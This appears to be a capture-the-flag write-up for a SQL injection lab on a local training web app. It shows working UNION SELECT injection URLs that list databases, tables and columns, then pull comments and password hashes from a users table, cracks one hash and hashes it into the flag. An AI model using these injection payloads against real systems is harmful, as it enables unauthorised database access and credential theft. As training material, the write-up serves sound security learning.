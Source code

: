 # http://192.168.99.100/?page=member&id=1

### getting current database name and listing all databases:

`http://192.168.99.100/?page=member&id=42 union select database(), schema_name from information_schema.schemata&Submit=Submit`

##### result:

```
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : information_schema
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_survey
```

so current database is `Member_Sql_Injection`,
the other databases are `Member_Brute_Force`, `Member_guestbook`, `Member_images`, `Member_survey`



### getting a list of tables in current database:


`http://192.168.99.100/?page=member&id=42 union select table_name, create_time from information_schema.tables where table_schema=database()&Submit=Submit`

##### result:

```
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database()
First name: users
Surname : 2015-09-16 15:55:03
```

so our database has a table called `users`


### listing all column names and types:
`http://192.168.99.100/?page=member&id=42 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit`

##### result:

```
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: countersign
Surname : varchar(255)
```

so we have the columns `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`

### getting the juicy info:

`http://192.168.99.100/?page=member&id=42 union select Commentaire, countersign from users&Submit=Submit`


##### result:

```
ID: 42 union select Commentaire, countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```


### solution:
googling the hash `5ff9d0165b4f92b14994e5c685cdce28` produces the original string `FortyTwo`

as per instructions SHA-256 of `fortytwo` is:

#### `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

we have the flag, great success


